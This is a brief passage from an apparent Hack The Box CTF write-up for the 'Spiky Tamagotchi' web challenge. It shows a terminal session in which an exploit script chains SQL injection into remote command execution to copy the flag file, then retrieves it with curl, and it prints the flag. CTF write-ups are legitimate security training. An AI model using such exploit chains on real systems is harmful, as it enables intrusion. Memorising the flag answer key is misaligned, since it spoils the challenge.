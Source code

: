 ```bash
┌──(kali㉿kali)-[~/…/Challenge/Web/web_spiky_tamagotchi/exploit]
└─$ python3 exploit.py -i 157.245.46.136 -p 31504 -c "cp /flag.txt /app/static/images/flag.txt"
Preparing the SQL Injection exploit...
Exploiting the SQL Injection...
Preparing the RCE exploit...
Exploiting the RCE...
200
Exploit succesful!

┌──(kali㉿kali)-[~/…/Challenge/Web/web_spiky_tamagotchi/exploit]
└─$ curl http://157.245.46.136:31504/static/images/flag.txt
HTB{s0rry_1m_n07_1nt0_typ3_ch3ck5}
```

# Flag

>[!success]
>`HTB{s0rry_1m_n07_1nt0_typ3_ch3ck5}`


